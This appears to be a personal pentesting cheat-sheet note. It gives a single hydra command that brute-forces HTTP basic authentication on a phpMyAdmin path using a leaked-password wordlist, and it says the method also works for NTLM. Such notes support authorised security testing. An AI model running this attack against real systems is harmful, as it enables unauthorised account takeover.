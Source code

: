 # hydra brute force HTTP basic authentication also works for NTLM
```bash
hydra $IP http-get -L users  -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt /phpmyadmin
```

# References
- [20221003150849](/zet/20221003150849/) hydra brute force HTTP basic authentication
- ~/kb/hacking/commands/hydra-http-auth.md

Tags:
    #assorted

